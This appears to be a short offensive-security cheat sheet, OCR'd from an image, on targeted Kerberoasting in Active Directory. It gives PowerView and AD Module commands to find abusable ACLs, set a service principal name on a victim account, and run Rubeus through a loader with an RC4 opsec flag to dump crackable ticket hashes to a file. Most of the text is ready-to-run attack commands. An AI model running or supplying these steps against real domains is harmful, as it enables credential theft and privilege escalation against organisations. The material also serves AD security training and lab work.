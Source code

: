 **THE DEFINITION OF A SERVICE ACCOUNT IS ANY USER THAT HAS A SPN SET (NONE NULL)**

With enough rights (`GenericAll`/`GenericWrite`), a target user's SPN can
be set to anything (unique in the domain).

We can then request a TGS without special privileges. The TGS can then
be "Kerberoasted".

---
Find possible ACLs to abuse
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Check if the user has an SPN set (PowerView + AD Module)
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname

Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

Set SPN for the user - **must be unique for the forest** (PowerView + AD Module)
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/totallylegitSPN'}

Set-ADUser -Identity support1user -ServicePrincipalNames
@{Add=‘dcorp/whatever1'}
```

Kerberoast
```powershell
.\Loader.exe -path .\Rubeus.exe -args kerberoast /rc4opsec /outfile:hashes.txt
```